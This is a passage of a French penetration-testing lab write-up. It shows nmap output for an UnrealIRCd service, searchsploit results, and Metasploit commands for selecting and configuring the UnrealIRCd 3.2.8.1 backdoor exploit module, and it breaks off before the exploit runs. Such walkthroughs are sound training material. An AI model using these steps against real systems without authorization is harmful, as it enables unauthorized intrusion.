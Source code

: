 ```bash

```

## IRC

On voit avec le scan nmap que l'on a un UnrealIRCd.
```
6667/tcp  open  irc         UnrealIRCd
```

La version n'est pas indiquée, mais on peut regarder s'il existe un exploit.
```bash
$searchsploit unrealirc
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow     | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute              | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                   | windows/dos/27407.pl
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Il existe plusieurs exploits pour la version 3.2.8.1.

On lance metasploit avec ```sudo msfdb run```.

On peut ensuite recherche l'exploit avec la commande `search`. On peut ensuite le selectionner avec `use`.

```bash
msf6 > search unrealirc

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > 
```

On peut utiliser la commande `info` pour en savoir un peut plus sur l'exploit.

`options` nous indique qu'il faut définir une IP distante et un port. On définit l'IP distante avec `set`

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```